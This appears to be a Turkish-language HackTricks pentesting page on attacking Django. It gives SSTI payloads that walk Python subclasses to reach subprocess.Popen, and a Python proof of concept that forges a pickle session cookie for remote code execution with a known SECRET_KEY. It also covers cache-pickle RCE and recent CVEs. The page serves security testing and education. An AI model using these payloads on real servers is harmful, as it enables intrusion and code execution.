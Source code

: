 # Django

{{#include ../../banners/hacktricks-training.md}}

## Önbellek Manipülasyonu ile RCE
Django'nun varsayılan önbellek depolama yöntemi [Python pickles](https://docs.python.org/3/library/pickle.html) olup, [güvenilmeyen girişler unpickled](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) olduğunda RCE'ye yol açabilir. **Eğer bir saldırgan önbelleğe yazma erişimi elde ederse, bu açığı temel sunucuda RCE'ye yükseltebilir**.

Django önbelleği dört yerden birinde depolanır: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [bellek](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [dosyalar](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16) veya bir [veritabanı](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Redis sunucusunda veya veritabanında depolanan önbellek, en olası saldırı vektörleridir (Redis enjeksiyonu ve SQL enjeksiyonu), ancak bir saldırgan dosya tabanlı önbelleği kullanarak rastgele bir yazmayı RCE'ye dönüştürebilir. Bakımcılar bunu bir sorun olarak işaretlemiştir. Önbellek dosyası klasörünün, SQL tablo adının ve Redis sunucu bilgilerinin uygulamaya göre değişeceğini belirtmek önemlidir.

Bu HackerOne raporu, SQLite veritabanında depolanan Django önbelleğini istismar etmenin harika, tekrarlanabilir bir örneğini sunmaktadır: https://hackerone.com/reports/1415436

---

## Sunucu Tarafı Şablon Enjeksiyonu (SSTI)
Django Şablon Dili (DTL) **Turing-tamamlayıcıdır**. Kullanıcıdan sağlanan veriler bir *şablon dizesi* olarak işlenirse (örneğin `Template(user_input).render()` çağrılarak veya `|safe`/`format_html()` otomatik kaçışları kaldırdığında), bir saldırgan tam SSTI → RCE elde edebilir.

### Tespit
1. *Herhangi* bir temizlenmemiş istek verisini içeren `Template()` / `Engine.from_string()` / `render_to_string()` için dinamik çağrılara bakın.
2. Zaman tabanlı veya aritmetik bir yük gönderin:
```django
{{7*7}}
```
Eğer işlenen çıktı `49` içeriyorsa, giriş şablon motoru tarafından derlenmiştir.

### RCE'ye Giden Yolda Primitif
Django, `__import__`'a doğrudan erişimi engeller, ancak Python nesne grafiğine erişim mümkündür:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
`subprocess.Popen`'ün indeksini bulun (Python derlemesine bağlı olarak yaklaşık 400–500) ve rastgele komutları çalıştırın:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Daha güvenli evrensel bir alet, `cls.__name__ == 'Popen'` olana kadar yinelemektir.

Aynı alet, kullanıcı girişini yanlış işleyen **Debug Toolbar** veya **Django-CMS** şablon render özellikleri için de çalışır.

---

## Pickle-Backed Session Cookie RCE
Eğer `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` ayarı etkinleştirilmişse (veya pickle'ı deseralize eden özel bir serileştirici), Django *oturum çerezini şifre çözer ve unpickle'lar* **herhangi bir görünüm kodunu çağırmadan önce**. Bu nedenle, geçerli bir imzalama anahtarına (varsayılan olarak projenin `SECRET_KEY`'i) sahip olmak, anında uzaktan kod yürütme için yeterlidir.

### Exploit Gereksinimleri
* Sunucu `PickleSerializer` kullanıyor.
* Saldırgan `settings.SECRET_KEY`'yi biliyor / tahmin edebiliyor (GitHub, `.env`, hata sayfaları vb. üzerinden sızıntılar).

### Kanıt-Konsept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Gönderilen çerez, WSGI işçi izinleriyle çalıştırılır.

**Önlemler**: Varsayılan `JSONSerializer`'ı koruyun, `SECRET_KEY`'i döndürün ve `SESSION_COOKIE_HTTPONLY`'yu yapılandırın.

---

## Son (2023-2025) Yüksek Etkili Django CVE'leri Pentester'ların Kontrol Etmesi Gerekenler
* **CVE-2025-48432** – *Kaçırılmamış `request.path` üzerinden Log Enjeksiyonu* (4 Haziran 2025'te düzeltildi). Saldırganların log dosyalarına yeni satırlar/ANSI kodları sokmasına ve aşağı akış log analizini zehirlemesine olanak tanır. Yamanın seviyesi ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Kritik SQL enjeksiyonu* `QuerySet.values()/values_list()` üzerinde `JSONField` (CVSS 9.8). JSON anahtarlarını, alıntıdan çıkmak ve keyfi SQL çalıştırmak için oluşturun. 4.2.15 / 5.0.8'de düzeltildi.

Her zaman `X-Frame-Options` hata sayfası veya `/static/admin/css/base.css` hash'i aracılığıyla tam çerçeve sürümünü parmak iziyle tanımlayın ve yukarıdakileri uygun olduğunda test edin.

---

## Referanslar
* Django güvenlik sürümü – "Django 5.2.2, 5.1.10, 4.2.22 CVE-2025-48432'yi ele alıyor" – 4 Haziran 2025.
* OP-Innovate: "Django, SQL enjeksiyon açığını gidermek için güvenlik güncellemeleri yayınladı CVE-2024-42005" – 11 Ağustos 2024.

{{#include ../../banners/hacktricks-training.md}}
